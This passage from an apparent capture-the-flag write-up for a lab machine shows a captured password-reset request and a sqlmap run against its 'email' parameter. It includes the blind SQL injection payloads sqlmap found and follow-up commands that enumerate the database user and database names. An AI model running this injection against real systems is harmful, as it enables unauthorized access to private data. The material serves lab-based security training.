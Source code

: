 ```bash
DNT: 1
Sec-GPC: 1

_token=nOo5nERbEsRmyjVAbSL0uz564mhvHV8VxcTOWtFR&email=a%40a.com 
```

Run **sqlmap**

```bash
sqlmap --random-agent -r pass_reset.req --threads 10 -p email --batch --os linux --level 5 --risk 3
```

```bash
sqlmap identified the following injection point(s) with a total of 739 HTTP(s) requests:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: _token=nOo5nERbEsRmyjVAbSL0uz564mhvHV8VxcTOWtFR&email=a@a.com' AND 8975=(SELECT (CASE WHEN (8975=8975) THEN 8975 ELSE (SELECT 4121 UNION SELECT 8433) END))-- wRYY

    Type: time-based blind
    Title: MySQL < 5.0.12 AND time-based blind (BENCHMARK)
    Payload: _token=nOo5nERbEsRmyjVAbSL0uz564mhvHV8VxcTOWtFR&email=a@a.com' AND 3445=BENCHMARK(5000000,MD5(0x4962637a))-- QApP
---
[19:19:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.18.0
back-end DBMS: MySQL < 5.0.12
```

#### Enumerate database

- Current user

```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ sqlmap --random-agent -r pass_reset.req --threads 10 -p email --batch --os linux --level 5 --risk 3 --current-user
[...]
current user: 'staff@localhost'
[...]
```

- Databases

```bash
┌──(bravosec㉿fsociety)-[~/htb/Usage]
└─$ sqlmap --random-agent -r pass_reset.req --threads 10 -p email --batch --os linux --level 5 --risk 3 --dbs
[...]
available databases [3]:
[*] information_schema
[*] performance_schema
[*] usage_blog
[...]
```
